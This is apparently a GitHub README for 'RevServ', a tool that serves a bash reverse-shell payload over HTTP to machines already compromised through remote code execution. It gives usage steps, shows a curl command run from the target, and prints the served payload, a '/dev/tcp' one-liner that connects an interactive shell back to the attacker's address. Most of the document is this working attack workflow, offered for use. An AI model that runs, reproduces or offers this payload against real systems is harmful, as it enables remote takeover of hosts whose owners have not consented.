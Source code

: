 # RevServ
Serving Bash reverse-shell payload via http

## Usage
```bash
root@darkness:~# python3 reversv.py -h

   _____  _            _  _                                                 
  / ____|| |          | || |                                                
 | (___  | |__    ___ | || |  ______   ___   ___  _ __ __   __ ___  _ __    
  \___ \ | '_ \  / _ \| || | |______| / __| / _ \| '__|\ \ / // _ \| '__|   
  ____) || | | ||  __/| || |          \__ \|  __/| |    \ V /|  __/| |      
 |_____/ |_| |_| \___||_||_|          |___/ \___||_|     \_/  \___||_|      
  _               _____  _             ___           __          ____       
 | |             / ____|| |           / _ \         / /         / __ \      
 | |__   _   _  | |     | |__   _ __ | | | |__  __ / /_    ___ | |  | | ___ 
 | '_ \ | | | | | |     | '_ \ | '__|| | | |\ \/ /| '_ \  / _ \| |  | |/ __|
 | |_) || |_| | | |____ | | | || |   | |_| | >  < | (_) ||  __/| |__| |\__ \
 |_.__/  \__, |  \_____||_| |_||_|    \___/ /_/\_\ \___/  \___| \____/ |___/
          __/ |                                                             
         |___/                                                              

Twitter:    https://twitter.com/Chr0x6eOs
Github:     https://github.com/Chr0x6eOs
____________________________________________________________________________
    
usage: revserv.py [-h] [-p PORT]

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Port for http-server to listen
  ```

## How does it work?

1.) Start the server
```bash
root@darkness:~# python3 revserv.py
[*] Serving bash-reverse-shell on 0.0.0.0:80...
```

2.) Issue command (e.g. through RCE)

The reverse-shell port (defaulted to 443) can be specified by the resource-path (e.g: /4444).
```bash
www-data@target:~$ curl 192.168.0.1/4444
```

3.) Program generates bash-reverse-shell
```bash
root@darkness:~# python3 revserv.py
[*] Serving bash-reverse-shell on 0.0.0.0:80...
[*] Served reverse-shell payload via http to 127.0.0.1!
Generate reverse-shell for port 4444!
```

4.) Payload gets send to target
```bash
www-data@target:~$ curl 192.168.0.1/4444
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'
```
